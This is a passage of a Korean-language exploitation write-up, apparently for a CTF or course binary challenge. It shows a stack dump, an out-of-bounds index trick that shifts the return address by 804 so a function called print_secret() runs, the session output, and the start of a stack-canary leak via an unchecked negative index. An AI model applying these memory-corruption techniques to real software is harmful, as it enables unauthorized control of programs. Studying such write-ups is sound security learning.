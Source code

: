 ```nasm
0x7fffffffd6f0: 0x0000000000000000      0x6d9532384a039a00
	#	item[21]  item[20]      item[23]  item[22]
0x7fffffffd700: 0x0000000000000001      0x00000000004014fa  # return address!
```

이제 실제 return address의 값을 알았다.
실제 return address와 내가 바꾸고 싶은 address의 차이를 온라인 hex calculator로 계산하였다.
![200](../../../../Z.%20Docs/img/Pasted%20image%2020241016043438.png)

그럼 return address를 수정했다고 하자. 이게 끝이 아니다.
`manage_fund()`함수를 빠져나오며 ret를 통해 return address가 수행되도록 해야한다.

🔫 그렇다면 전체 Exploit 과정은 다음과 같을 것이다.
1. menu 2로 진입
2. 인덱스 22에 해당하는 값을 804만큼 감소시킨다.
3. menu 3으로 `manage_fund()` 함수에서 exit
```
=== Manage your fund portfolio ===
1. Check your portfolio
2. Rebalance the portfolio
3. Retire from the market
(Enter 1~3): 2
Input the ID of item you want to withdraw money from: 22
Input the ID of item you want to invest more money: 2
Decide how much to move: 804        // return address changed.
=== Manage your fund portfolio ===
1. Check your portfolio
2. Rebalance the portfolio
3. Retire from the market
(Enter 1~3): 3                      // ret
Secret file content is: 272cd04e    // print_secret() Executed!
```

그럼 위와 같이 `print_secret()`를 수행할 수 있게된다.

## 2-5
> `read_memo()` i의 값이 음수인지 체크를 하지 않는 점을 이용해서 Canary 값의 Memory Disclosure를 일으킨다.

N-0x18: canary
N-0x8: return addr
N: rsp
N+0x20: `marr[]`
N+0x138: canary
N+0x148: return addr
